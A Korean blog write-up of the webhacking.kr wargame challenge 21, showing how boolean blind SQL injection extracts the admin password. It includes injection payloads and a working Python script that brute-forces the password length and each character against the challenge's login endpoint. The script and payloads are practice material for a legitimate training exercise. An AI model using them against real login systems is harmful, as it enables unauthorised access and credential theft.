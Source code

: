 ```yaml
---
title: "Webhacking.kr challenge(old) 21th Write-Up"
tags: [wargame, blindsqli]
categories: [SQLi]
---
```


Webhacking.kr 21 Write-Up
-------------------------

## **문제 분석**

문제에 접속하면 id와 pw가 입력 가능한 창이 있고 대문짝만하게 BLIND SQL Injection이라고 적혀 있습니다. 먼저 Blind SQL Injection을 성공하기 위해서는 조건에 따른 페이지의 차이를 알 필요가 있었습니다. 페이지를 보면 result 부분이 있었는데 로그인 성공 여부에 따라 문구가 출력되는 것을 확인할 수 있었습니다.

![webhacking_kr_21_main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/webhacking_kr_21_main.png?raw=true)

가장 먼저 로그인을 성공했을 때의 경우를 알고 싶었기에 guest/guest 계정을 사용하여 시도한 결과 login success라는 문구가 출력되었습니다. 이에 따라 guest 계정이 존재하는 것을 알 수 있었기에 참과 거짓을 구분할 방법을 알아내기 위해 아래 두 가지 Query를 시도하였습니다.

- 참일 경우 : ' or 1=1-- -
	- 반환 결과 : wrong password

- 거짓일 경우 : ' or 1=0-- -
	- 반환 결과 : login fail

즉, Query의 결과가 참일 경우 wrong password 라는 문구가 표시되는 것을 통해 SQL Injection의 성공 여부를 판단할 수 있었습니다. 이러한 유형의 문제는 admin의 password가 flag가 되거나 admin 계정으로 로그인에 성공하는 것이 목적이기에 이를 알아내기 위해 아래와 같은 코드를 작성하였습니다.

## **문제 해결**

먼저 admin 계정의 pw 길이를 알아내기 위해 다음과 같이 Python code를 작성하였습니다.

```python
for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))
```

이때, or 뒤에 id='admin' 조건을 작성하지 않을 경우 guest 계정에 대한 pw 길이도 비교하였기에 위와 같이 code를 수정하였습니다.

* * *

다음으로는 위에서 알아낸 pw 길이를 바탕으로 brute force 공격을 통해 전체 pw를 알아낼 수 있는 code를 작성하였습니다.

```python
for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            break

print("admin password is : {}".format(pw))
```

처음 작성한 code의 경우 대소문자를 명확하게 구별할 수 없어서 pw를 구했음에도 문제를 해결할 수 없었습니다. 따라서 ascii 함수를 통해 추출한 값을 비교함으로써 이러한 문제를 해결하였습니다.

최종적으로 사용된 코드는 아래와 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/bonus-1/index.php"
cookies = {"PHPSESSID":"22h1kbhc6uk1mhisjb9f5tif6n"}
params = {"id":"admin"}
ref1 = "wrong password"
length = ""
pw = ""

for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))

for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            print(pw)
            break

print("admin password is : {}".format(pw))
```
